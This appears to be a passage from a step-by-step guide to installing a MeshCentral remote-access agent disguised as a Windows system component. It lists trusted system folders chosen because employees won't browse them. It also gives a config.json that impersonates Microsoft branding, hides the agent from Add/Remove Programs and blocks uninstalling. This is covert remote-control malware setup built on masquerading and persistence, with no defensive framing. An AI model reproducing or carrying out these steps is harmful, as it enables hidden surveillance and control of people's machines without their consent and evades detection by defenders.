**Recommended Path:** `C:\Windows\SystemApps\Microsoft.Windows.TelemetryCore\`

**Alternative Paths:**
```
C:\Windows\SystemApps\Microsoft.Windows.SecHealthUI\
C:\Windows\SystemApps\Microsoft.Windows.Defender\
C:\ProgramData\Microsoft\Windows\WER\
C:\Windows\System32\spool\drivers\
```

**Path Selection Criteria:**
- Must be in trusted Windows directories
- Should contain other system components
- Employees won't manually browse these locations
- Hidden from casual inspection

#### Step 1.3: Prepare MeshCentral Server

**Server-Side Configuration:**

Edit MeshCentral `config.json`:

```json
{
  "settings": {
    "agentCustomization": {
      "companyName": "Microsoft Corporation",
      "serviceName": "WinTelemetryCore",
      "displayName": "Windows Telemetry Core Service",
      "installPath": "C:\\Windows\\SystemApps\\Microsoft.Windows.TelemetryCore\\",
      "executableName": "TelemetryCore.exe",
      "fileDescription": "Windows Telemetry Core Service",
      "productName": "Microsoft Windows",
      "copyright": "© Microsoft Corporation. All rights reserved.",
      "hideFromAddRemove": true,
      "preventUninstall": true
    }
  },
  "domains": {
    "": {
      "agentConfig": {
        "noUpdateCheck": false,
        "compression": true,
        "webSocketMaskOverride": 1
      }
    }
  }
}
```

**Note:** Some of these options may not be natively supported by MeshCentral and require source code modifications (see Method 3).

---
